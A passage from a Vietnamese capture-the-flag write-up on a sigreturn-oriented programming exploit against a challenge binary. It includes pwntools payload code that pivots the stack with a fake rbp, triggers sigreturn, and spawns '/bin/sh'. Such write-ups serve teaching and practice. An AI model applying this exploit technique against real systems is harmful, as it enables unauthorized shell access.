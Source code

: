 Chạy thử code thì ta thấy chương trình yêu cầu chúng ta nhập vào. Vậy bây giờ ta chỉ việc đưa chuỗi `"/bin/sh"` và pad cho đủ `0xf` byte. Sau đó chương trình sẽ `leave ; ret` và thực thi lệnh syscall giúp ta thực thi sigreturn.

Nhưng khoan đã, để ý cái dòng thay đổi của đoạn code trên, rbp lúc đó sẽ trỏ về địa chỉ `rw_section`, tức là `0x403900`. Nhưng mình không ghi gì vào đó và ở đó cũng không chứa frame. Vậy ta sẽ chỉnh Fake rbp đó thành địa chỉ của `rw_section - 0x300 + 0x8` thì khi thực hiện `leave ; ret` của chương trình, rip sẽ trỏ ngay vào syscall:

```python
leave_ret = 0x401065
payload = b'A'*0x100
payload += flat(
    rw_section - 0x300 + 0x8,    # Change here (Fake rbp)
    0x401043,
    syscall,
    bytes(frame)
    )
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section - 0x300,    # Saved rbp
    leave_ret)             # Saved rip
p.send(payload)
``` 

Và ta nhập chuỗi `"/bin/sh"` và pad cho đủ `0xf` byte:

```python
p.send(b'/bin/sh\x00' + b'\x00'*7)
```

May mắn là rdi frame của frame trùng với địa chỉ nhập chuỗi `"/bin/sh"` nên khi sigreturn, ta được rdi chứa địa chỉ trỏ tới chuỗi `"/bin/sh"` và ta lấy được shell.

Full code: [solve.py](solve.py)

# 4. Lấy cờ
